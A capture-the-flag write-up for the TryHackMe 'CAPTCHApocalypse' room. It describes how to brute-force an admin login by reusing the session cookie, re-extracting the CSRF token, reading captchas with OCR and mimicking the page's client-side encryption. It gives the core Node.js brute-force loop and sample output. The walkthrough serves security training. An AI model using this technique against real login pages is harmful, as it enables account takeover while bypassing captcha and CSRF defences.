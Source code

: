 ```yaml
---
layout: post
title: TryHackMe - "CAPTCHApocalypse"
categories: Challenges
tags: pen-testing 
---
```

[Link to the challenge](https://tryhackme.com/room/captchapocalypse)

## Intro

We are targeting a website displaying a login form. We know username is "admin", but the password isn't easily guessable, so we need to perform a bruteforce attack using a dictionary (we're told the dictionary to use is "rockyou.txt," specifically the first 100 lines). However, the login form isn't easily crackable with common "pre-packaged" attacks because we have three elements protecting it:

- Upon the client's first request to the main page, the server sends the <u>session</u> number to the client via a cookie (see response header). The client must therefore send this cookie in each request. It remains fixed, so it's not a major problem.

- There's also a <u>CSRF token</u>, contained in the login html page (useful for preventing CSRF attacks). This changes with each failed login attempt, so for each failed login attempt, we need to keep track of this string and send it back to the server, sending the login POST.

- The login page also requires the famous <u>captcha</u>: an image displaying a number, which must be sent back to the server in the login POST: for each login attempt, we must recognize the alphanumerical text shown in the image using an OCR function (we can use the "tesseract" library) and send it to the server along with the other parameters (username, password, csrf-token).

Because of these three protective elements, we can't simply make multiple POST requests containing the various words from the dictionary to be used as passwords for "admin" user, perhaps using Hydra or other automated brute-forcing methods. Instead, we need to program our custom script, which for each login attempt will send to the server the session ID, the anti-CSRF token (which changes with each attempt, so it must be extracted from a new login page, for each cycle), and the corresponding captcha.

## Encryption and Javascript

In addition to what we said earlier, there is one more thing to note: the target web application is programmed to send the query containing the four parameters (username, password, csrf-token, captcha_input) in encrypted form using "forge" JavaScript library (forge.min.js), called by login script (script.js), so this adds complexity to our brute-force attack.

The encryption is asymmetric, but this isn't a problem because the client-side JavaScript login script (viewable in our browser) shows us the two keys (private key for decryption, and public key for encryption). By looking at source code, we can see how login process works, which retrieves the strings contained in the form fields (username, password, csrf-token, captcha_input), packages them into a query string, which is transformed into a base64 string, and then it's encrypted, and sent to the server with a POST.
The response that comes from the server will have to be treated inversely: there will be decryption, base64 decoding, and then treatment of the different result cases (successful login, failed login, invalid captcha). Note: login request/response content type is JSON. 

Since the client-side login logic is contained almost exclusively in the JavaScript script, which extracts all fields from login form and sends them in encrypted form to the server, it will be more convenient to program our custom brute-forcing script in JavaScript itself, using Node.js technology, which allows the execution of JavaScript as a command-line script from terminal, just as we would if we were calling a Python script.

## Brute-force script

We do not present the complete script of all the subfunctions to avoid giving away any easy spoilers, but only the fundamental part that manages the logic of our bruteforcing attack.

    console.log("Loading dictionary...");
    var words = await readDictionaryFile();
    console.log("Done.");	   
    console.log("Requesting web index...");
    var index_page_text = await requestIndexPage();
    console.log("Session ID:", session_id); // session_id is extracted from response header

    var csrf_match = index_page_text.match(csrf_regexp);
    var csrf_str = csrf_match[1];
    var captcha_str = await requestCaptcha();
    captcha_str = captcha_str.trim();
    var result;
    var i = 0;
    for (let word of words) {
        result = 2;
        while (result == 2) { // while captcha is not recognized we will retry login with the same password and a new captcha
            console.log(i + ";admin:" + word + ";csrf:" + csrf_str + ";captcha:" + captcha_str);
            result = await custom_login(login_url, session_id, username, word, csrf_str, captcha_str);
            if (result == 0) { // login successful 
                break;
            }
            else if (result == 1) { // login failed
                let login_page_text = await requestLoginPage();
                csrf_match = login_page_text.match(csrf_regexp);
                csrf_str = csrf_match[1];
                captcha_str = await requestCaptcha();
                captcha_str = captcha_str.trim();
            }
            else if (result == 2) { // captcha invalid (not recognized), we only request another captcha
                captcha_str = await requestCaptcha();
                captcha_str = captcha_str.trim();
            }
            else if (result > 2){ // connection error
                break;
            }
        }
        if ((result == 0) || (result > 2) || (i > 100)) {
            break
        }
        i++;
    }

In summary, the first request to the index server page is mainly to capture the session number which will remain fixed throughout the attack, and also capture the first csrf token (and captcha), which we use on the first login attempt.

After that, the cycle begins: for each _word_ in the dictionary (rockyou.txt), we do POST login request sending username, password (_word_), csrf_token, captcha string, and cookie header with session_id, calling our "custom_login" function, which is very similar to the original login() function defined in "script.js" file, and it returns a result based on the server response.

- If result of our "custom_login" is 0 (successful login) we break the loop 
- If result is 1 (failed login) we move on, requesting a new login page in order to extract a new csrf token, and requesting a new captcha from the server, and then making a new POST login attempt, etc. etc..
- If result is 2 (invalid captcha), we request to the server a new captcha, without requesting a new login page, we recognize it using OCR technique, and we retry login with the same password until captcha will be recognized correctly. This is the meaning of "while (result == 2)" statement.

In other words, the "for" loop, which attempts a login for each word in the dictionary, continues to run within "while" sub-loop if captcha is not recognized correctly; otherwise, it proceed normally with the next password from dictionary, continuing with the "for" loop.

By implementing the script (completely, with sub-functions, etc.) and running our script, the password will be found within a fairly reasonable amount of time. Then, with that correct password, you'll need to log in with your browser to access to admin account (basically, a simple page will appear that will display the flag).

We show only the first lines of the script's output without going any further to avoid spoilers.

    0;admin:123456;csrf:77fc53b6febe1be218b63094ad3f29dcc016821e183e0625075263c4150bbccc;captcha:BHDG3
    CAPTCHA incorrect.
    0;admin:123456;csrf:77fc53b6febe1be218b63094ad3f29dcc016821e183e0625075263c4150bbccc;captcha:IB259
    CAPTCHA incorrect.
    0;admin:123456;csrf:77fc53b6febe1be218b63094ad3f29dcc016821e183e0625075263c4150bbccc;captcha:4UBKZ
    Login failed
    1;admin:12345;csrf:3b513619b95f5142e386291abaa67b514b34b5cea0cd6fb772eba536167805b2;captcha:LAGNX
    CAPTCHA incorrect.
    1;admin:12345;csrf:3b513619b95f5142e386291abaa67b514b34b5cea0cd6fb772eba536167805b2;captcha:T8SUM
    CAPTCHA incorrect.
    1;admin:12345;csrf:3b513619b95f5142e386291abaa67b514b34b5cea0cd6fb772eba536167805b2;captcha:KsXaY
    Login failed
    2;admin:123456789;csrf:09df82f29e3fc313bc586e62de97b2270fe50813f75065d02a293fdb19eef9ba;captcha:H94UV
    Login failed
    3;admin:password;csrf:27a2d497e4e696fd10cfeca33831c18ebd88320c4e9d5ab216970606f29100e6;captcha:QEVSM
    CAPTCHA incorrect.
    3;admin:password;csrf:27a2d497e4e696fd10cfeca33831c18ebd88320c4e9d5ab216970606f29100e6;captcha:Y8PJ4
    Login failed
    4;admin:iloveyou;csrf:9479c2ef0ace5ede25c7121d036a35f2767c73606ffb61d1890b7f50f46cbd08;captcha:2DE7S
    Login failed
    5;admin:princess;csrf:58ce68c397d00eba5ecab28e6789af05e1c6743116a29413f3b0ef79f2e64616;captcha:8X9CG
    Login failed
    6;admin:1234567;csrf:986cacb9aa69b46503e680c14ed02677eec0d09a30bcf4f2ff67b0078fbb36ce;captcha:KNZOT
    CAPTCHA incorrect.
    6;admin:1234567;csrf:986cacb9aa69b46503e680c14ed02677eec0d09a30bcf4f2ff67b0078fbb36ce;captcha:voseT
    CAPTCHA incorrect.
    6;admin:1234567;csrf:986cacb9aa69b46503e680c14ed02677eec0d09a30bcf4f2ff67b0078fbb36ce;captcha:SBXLY
    CAPTCHA incorrect.
    6;admin:1234567;csrf:986cacb9aa69b46503e680c14ed02677eec0d09a30bcf4f2ff67b0078fbb36ce;captcha:T2BMP
    Login failed
    7;admin:rockyou;csrf:909b59b325240621c447e41466a771431a5dbb4bebfc9953af6124bf3bb4cb75;captcha:2NSPG
    CAPTCHA incorrect.
    7;admin:rockyou;csrf:909b59b325240621c447e41466a771431a5dbb4bebfc9953af6124bf3bb4cb75;captcha:NSLPX
    Login failed
    8;admin:12345678;csrf:29aa40e2b4c54d5e6fcd757a4f43fc56b9667b29f58e3ca85bc55105175db4fd;captcha:75VUT
    CAPTCHA incorrect.
    8;admin:12345678;csrf:29aa40e2b4c54d5e6fcd757a4f43fc56b9667b29f58e3ca85bc55105175db4fd;captcha:YSIRK
    CAPTCHA incorrect.
    8;admin:12345678;csrf:29aa40e2b4c54d5e6fcd757a4f43fc56b9667b29f58e3ca85bc55105175db4fd;captcha:E6Jav
    CAPTCHA incorrect.
    8;admin:12345678;csrf:29aa40e2b4c54d5e6fcd757a4f43fc56b9667b29f58e3ca85bc55105175db4fd;captcha:TFDES
    CAPTCHA incorrect.
    8;admin:12345678;csrf:29aa40e2b4c54d5e6fcd757a4f43fc56b9667b29f58e3ca85bc55105175db4fd;captcha:B53GA
    Login failed
    9;admin:abc123;csrf:6c5bb49ee74ab0aabeeec5befe9b9df3ca00c4d5c7cf31ae8237f0ddc3556cfa;captcha:MKC3
    CAPTCHA incorrect.
    9;admin:abc123;csrf:6c5bb49ee74ab0aabeeec5befe9b9df3ca00c4d5c7cf31ae8237f0ddc3556cfa;captcha:DIKBN
    CAPTCHA incorrect.
    9;admin:abc123;csrf:6c5bb49ee74ab0aabeeec5befe9b9df3ca00c4d5c7cf31ae8237f0ddc3556cfa;captcha:2THaD
    CAPTCHA incorrect.
    9;admin:abc123;csrf:6c5bb49ee74ab0aabeeec5befe9b9df3ca00c4d5c7cf31ae8237f0ddc3556cfa;captcha:NZAFS
    Login failed
    10;admin:nicole;csrf:5191abe3c4999e00e99b08d1543f5c47412fb42b9596180f2b7b7fb0087e205e;captcha:HEK32
    CAPTCHA incorrect.
    10;admin:nicole;csrf:5191abe3c4999e00e99b08d1543f5c47412fb42b9596180f2b7b7fb0087e205e;captcha:GFUK2
    Login failed
    11;admin:daniel;csrf:5c4d65f2f195884d76c59bbad2beb6b8512e243d0013d3929341fe2c7291ff2b;captcha:HoaMA
    CAPTCHA incorrect.